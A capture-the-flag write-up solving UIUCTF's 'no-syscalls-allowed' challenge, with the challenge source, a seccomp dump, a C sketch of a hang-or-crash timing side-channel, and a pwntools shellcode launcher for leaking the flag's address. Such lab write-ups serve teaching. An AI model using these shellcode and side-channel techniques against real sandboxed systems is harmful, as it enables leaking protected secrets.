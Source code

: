 # A Horse with No Names

Categories: Jail/Python

Description:
> no-syscalls-allowed.c
>
>- 205 points
>
>"no cell phones sign on a wall"
>
>
> No syscalls, no problem
>
> `nc no-syscalls-allowed.chal.uiuc.tf 1337`
>
>author: kuilin
>
> [no_syscalls_allowed.c](src/no_syscalls_allowed.c)

**Tags:** pwn, seccomp filter, timing side-channel, shellcode with pwntools, shellcode template

## Takeaways

- Shellcode created via pwntools `asm()`. You can use it as a template in the future.
  - Relative addressing in shellcode
  - Comments in shellcode
  - Data in shellcode
  - Parameterized shellcode
- Always be on the look out for side-channels
- Jumping to shellcode with active registers, can leak important information!

## Solution

In this challenge, we are given the source code which is pretty minimal:

```c
char flag[100];

void main(int argc, char *argv[]) {
  int fd = open("/flag.txt", O_RDONLY);
  read(fd, flag, sizeof flag);

  void *code = mmap(NULL, 0x1000, PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  read(STDIN_FILENO, code, 0x1000);

  if (seccomp_load(seccomp_init(SCMP_ACT_KILL)) < 0) return;

  ((void (*)())code)();
}
```

As we can see, the program reads the flag from a file into the `flag` buffer, allocates a RWX page, stores `0x1000` bytes of shellcode that we provide into that page, disables all system calls, and finally invokes our shellcode.

```log
nikos@ctf-box:~/ctfs/uiuctf22/pwn/no-syscalls-allowed$ seccomp-tools dump ./no_syscalls_allowed
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x03 0xc000003e  if (A != ARCH_X86_64) goto 0005
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x00 0xffffffff  /* no-op */
 0005: 0x06 0x00 0x00 0x00000000  return KILL
```

So, indeed no system call is allowed. What payload can we craft that leaks the flag? We can use a timing side-channel!

We will brute-force the flag byte-by-byte. We will start with the character at index `0`. We will test all possible 256 ASCII characters. Let's assume that we make a guess `g`. If `flag[0] != g` then we will seg fault the program (fast path). If `flag[0] == g` then we will enter an infinite loop, indicating to our open connection that the flag character is correct:

```C
char *flagptr = &flag;

//string.ascii_letters + string.digits + string.punctuation
char *alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$&()*+,-./:;<=>?@[]^_`{|}~"; //careful for escapes

void exploit(int flagidx, int alphabetidx) {
  char flagch = *(flagptr + flagidx);
  char cptr=*(alphabet + alphabetidx);

if(flagch == cptr)
    while(1) { /* hang */ };
else
    *(NULL);  //crash - touch NULL pointer
}
```

One thing that we are missing here is the address of `flag` as we do not have the binary and it is also probably PIE. As the binary does not clear the registers before jumping to our shellcode, we can easily figure that out:

```python
from pwn import *
context.binary = elfexe = ELF('./no_syscalls_allowed')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
io = start()
shellcode  = b'\xCC' # int3
assert(len(shellcode) <= 0x1000)
padded_shellcode = shellcode + b'\x90'*(0x1000 - len(shellcode)) # pad with NOps
io.send(padded_shellcode)
```

This shellcode consists of just a single breakpoint. When we run the binary under gdb, we can examine its registers:

![r13.png](resources/r13.png)

And look at that! `r13` is a pointer to `main` and we can calculate the offset to the global variable `flag`. However, there is **caveat here**. We are not given the binary, we are only given the source code. This means that the remote binary will have a different offset.

We can expect that our binary will be similar to the one the server is running, but offsets will vary slightly. At least, the size of the program segments should be the same.

![vmm.png](resources/vmm.png)

So, as you can see, each segment of the `no_syscalls_allowed` that comes from the file (i.e. not `MAP_ANONYMOUS`), is exactly 1 page long. And we expect the `flag` to be in the `RW-` segment. So, we can clear out the last 3 nibbles of `r13` to get the base address of the code segment and then add `0x3000` to get the base address of the `RW-` segment.

Next, we have to find the offset of the flag in the `RW-` segment. At this point, we use the offset that our local binary has (`0x40`). Once we have a fully working exploit locally, we can brute force the offset of the `flag` since we know that it must start with `uiuctf{`.

For the full script that implements the above solution, see [solution.py](solution.py). Once we run the script, we are presented with the flag!

`uiuctf{timing-is-everything}`
